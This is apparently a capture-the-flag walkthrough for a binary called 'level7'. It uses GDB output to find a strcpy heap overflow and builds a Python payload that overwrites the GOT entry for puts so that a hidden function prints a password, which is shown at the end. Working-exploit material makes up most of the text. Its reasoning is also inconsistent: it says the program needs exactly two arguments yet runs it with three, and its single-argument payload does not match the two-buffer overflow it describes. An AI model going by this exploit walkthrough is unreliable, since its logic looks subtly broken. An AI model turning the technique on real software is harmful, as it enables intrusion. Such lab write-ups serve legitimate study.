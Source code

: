 # 🚀 Level 7 - Walkthrough
## 🧪 First Step - Testing the Program
```bash
$ ./level7
Segmentation fault (core dumped)

$ ./level7 test
Segmentation fault (core dumped)

$ ./level7 a b
(no crash)

$ ./level7 a b c
(no crash)
```
- 🧾 Crashes without two args, works with two → expects exactly 2 arguments.
- 🔍 Likely manipulating both arguments in memory.

## 🐞 Start it in GDB
```bash
(gdb-peda)$ pdisas main
...
0x0804852a <+9>:    mov    DWORD PTR [esp],0x8
0x08048531 <+16>:   call   0x8048300 <malloc@plt>
0x08048536 <+21>:   mov    DWORD PTR [esp+0x1c], eax      ; p1 = malloc(8)
0x0804853e <+29>:   mov    DWORD PTR [eax], 0x1            ; *(p1) = 1
0x08048544 <+35>:   call   0x8048300 <malloc@plt>
0x08048549 <+40>:   mov    DWORD PTR [p1 + 4], eax         ; *(p1+4) = malloc(8)
0x08048559 <+56>:   strcpy(*(p1+4), argv[1])
...
```
- 📦 It creates a structure: { int id; char *buffer; }
- 👨‍🔧 Allocates two of them (p1, p2), each with malloc(8) buffer.
- 💥 Uses strcpy() on both buffers → classic heap overflow potential!

## 🕵️ Investigate Functions
```bash
(gdb-peda)$ info functions
...
0x080484f4  m
...
(gdb-peda)$ pdisas m
0x080484f4 <m>:
   mov    DWORD PTR [esp+4], 0x8049960     ; global "c" buffer
   call   0x80482f0 <puts@plt>             ; prints buffer
   ...
```
- 🧨 m() prints the contents of a global buffer — probably the password!

✅ Not called directly — we must hijack execution to call m().

## 🔍 Look at What Actually Gets Called
```bash
0x080485f7 <+215>:  call   0x80482f0 <puts@plt>
```
```bash
(gdb-peda)$ x/wx 0x80482f0
0x80482f0 <puts@plt>: jmp DWORD PTR ds:0x8049964
```
- 🔗 puts@plt uses GOT at 0x8049964
- 🎯 If we overwrite that with m() address → we print the flag!

## 🧠 Find Address of m()
```bash
(gdb-peda)$ p m
$1 = 0x080484f4
```
## 🧮 Offset to GOT Overwrite
We’ll overflow from buffer to reach and overwrite 0x8049964 (GOT entry for puts)
```bash
(gdb-peda)$ find 0x8049964
Searching for value: 0x8049964
Found 1 results, display max 1 matches:
0x0804a008
```
Use a crafted buffer to overwrite GOT pointer at 0x8049964.

## 🛠 Build the Payload
Let’s overflow the second buffer (argv[2]) to hit GOT.

```bash
$ python -c 'print("A"*20 + "\x64\x99\x04\x08" + "\xf4\x84\x04\x08")' > /tmp/payload
$ ./level7 A "$(cat /tmp/payload)"
🧱 A*20 fills buffer

🔁 \x64\x99\x04\x08 – address of puts@GOT

🔁 \xf4\x84\x04\x08 – address of m() function
```
✅ This causes GOT entry of puts to point to m.

## ✅ Final Step - Get the Password
```bash
$ ./level7 A "$(python -c 'print("A"*20 + "\x64\x99\x04\x08" + "\xf4\x84\x04\x08")')"
📜 Output:
```
```bash
f8c2eec6e40eccd29e203f65d059d13f5c10a6f3e9c2c1c72b4c3d80c2fc6861
```
- 🎉 Done.